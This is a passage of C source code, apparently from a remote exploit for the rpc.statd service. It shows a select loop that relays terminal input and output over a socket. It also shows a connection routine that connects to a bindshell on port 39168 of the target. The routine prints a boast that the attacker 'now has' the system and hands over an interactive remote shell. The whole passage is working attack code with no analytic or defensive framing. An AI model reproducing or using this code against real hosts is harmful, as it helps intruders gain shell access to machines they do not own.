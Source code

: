             write(fileno(stdout), buff, ret);

        }

 

        if(FD_ISSET(fileno(stdin), &fds))

        {

            bzero(buff, sizeof buff);

            ret = read(fileno(stdin), buff, sizeof buff);

            errno = 0;

            if(send(sockd, buff, ret, 0) != ret)

            {

                if(errno) perror("send()");

                else fprintf(stderr, "Transmission loss\n");

                exit(EXIT_FAILURE);

            }

        }

    }

}

 

void

connection(struct sockaddr_in host)

{

    int sockd;

 

    host.sin_port = htons(39168);

 

    if((sockd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)) < 0)

    {

        perror("socket()");

        exit(EXIT_FAILURE);

    }

 

    if(!connect(sockd, (struct sockaddr *) &host, sizeof host))

    {

        printf("OMG! You now have rpc.statd technique!@#$!\n");

        runshell(sockd);
